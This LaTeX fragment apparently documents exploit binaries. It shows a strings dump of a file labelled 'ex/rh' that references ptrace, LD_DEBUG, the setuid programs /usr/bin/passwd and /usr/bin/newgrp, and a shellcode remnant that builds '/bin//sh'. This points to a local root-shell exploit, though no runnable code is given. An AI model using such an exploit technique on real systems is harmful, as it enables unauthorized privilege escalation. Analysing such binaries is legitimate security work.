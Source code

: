 \vspace{1em}

\texttt{ex/rh}

\vspace{1em}

\begin{lstlisting}[style=terminal] 
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
waitpid
ioctl
execl
perror
dup2
sleep
pipe
fprintf
__deregister_frame_info
read
setenv
fork
ptrace
sprintf
stderr
exit
atoi
_IO_stdin_used
__libc_start_main
strlen
__register_frame_info
close
GLIBC_2.0
PTRh
read:
/usr/bin/passwd
execl
exec %s %i
PTRACE_GETREGS
waitpid
fork
attach
cont
attached
read
libs
LD_DEBUG
/usr/bin/newgrp
Rhn/shh//bi
\end{lstlisting}

\vspace{1em}

\texttt{ex/sd}

\vspace{1em}

